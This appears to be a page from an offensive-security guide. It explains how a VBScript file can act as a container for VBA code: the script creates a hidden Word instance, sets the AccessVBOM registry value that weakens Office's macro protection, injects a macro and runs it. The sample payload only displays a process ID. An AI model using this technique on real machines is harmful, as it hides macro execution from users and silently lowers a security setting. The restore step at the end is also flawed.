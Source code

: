 <br>

The VBA code must be launched from within a host process which requires putting it in a container.


### Containers for VBA

VBA code is traditionally launched from an Office document but can also use other filetypes as containers such as this VBScript file `ExecuteMacro.vbs` which creates a hidden Office object, adds a macro to it, and runs it:

```vb.net
Dim objWord, s, RegPath, action, objDocument, xlmodule

' Create hidden Word object
Set objWord = CreateObject("Word.Application")
objWord.Visible = False
Set s = CreateObject("WScript.Shell")

' Ensure required registry keys are set
function RegExists(regKey)
	on error resume next
	s.RegRead regKey
	RegExists = (Err.number = 0)
end function
RegPath = "HKEY_CURRENT_USER\Software\Microsoft\Office\15.0\Word\Security\AccessVBOM"
if RegExists(RegPath) then
	action = s.RegRead(RegPath)
else
	action = ""
end if
s.RegWrite RegPath, 1, "REG_DWORD"

' Add macro
Set objDocument = objWord.Documents.Add()
Set xlmodule = objDocument.VBProject.VBComponents.Add(1)
strCode = "Declare Function GetCurrentProcessId Lib "&Chr(34)&"kernel32"&Chr(34)&" () As Integer"&Chr(10)&"Sub mymacro()"&Chr(10)&"Dim z As Integer"&Chr(10)&"z = GetCurrentProcessId()"&Chr(10)&"MsgBox z"&Chr(10)&"End Sub"
xlmodule.CodeModule.AddFromString strCode
objWord.DisplayAlerts = False
on error resume next

' Run macro
objWord.Run "mymacro"
objDocument.Close False
objWord.Quit

' Reset reg key
if action = "" then
	s.RegWrite RegPath, action, "REG_DWORD"
end if
```
